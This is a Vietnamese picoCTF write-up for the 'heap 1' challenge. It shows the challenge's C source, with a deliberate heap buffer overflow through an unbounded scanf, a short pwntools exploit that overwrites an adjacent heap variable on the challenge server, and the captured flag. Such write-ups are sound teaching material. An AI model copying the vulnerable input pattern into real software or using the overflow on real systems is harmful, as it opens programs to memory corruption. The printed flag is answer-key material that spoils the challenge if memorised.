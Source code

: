 # Heap 1
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.

Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta thấy nếu nhập số `4` thì hàm `check_win()` sẽ được gọi. Nhìn vào hàm `check_win()`, ta thấy:

``` c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Ta thấy hàm sẽ in flag nếu `safe_var` bằng với chuỗi `pico`. Ta có `safe_var` được khởi tạo ban đầu là `bico`. Ta sẽ cố gắng làm cho `save_var` bằng với chuỗi `pico`.

Nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (Buffer overflow).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/a8cd71d5-ad42-422d-a695-003517818a88)

Ở địa chỉ `0x64174383d6b0` đang lưu trữ chuỗi pico (input được nhập vào sẽ lưu trữ từ đây). Và địa chỉ `safe_var` trỏ đến là `0x64174383d6d0` đang lưu trữ chuỗi bico. Ta thấy offset là 32 bytes, ta sẽ thử nhập 32 kí tự `a` và nhập chuỗi pico ở cuối.

![image](https://github.com/user-attachments/assets/ce1ff2f7-278b-4f44-9661-804d938de6b1)

Ta thấy rằng vùng nhớ trên heap mà `safe_var` trỏ đến đã bị ghi đè thành chuỗi `pico`.

Thực hiện print flag (số 4)

![image](https://github.com/user-attachments/assets/394f4402-341b-404f-95ca-ac8a792be744)

Tôi `WIN` =))))))). Và tôi có file exploit như sau:

``` python 
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 57638)
write = b'2'
flag = b'4'
payload = 32 * 'a'
payload += "pico"
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{starting_to_get_the_hang_21306688}
```
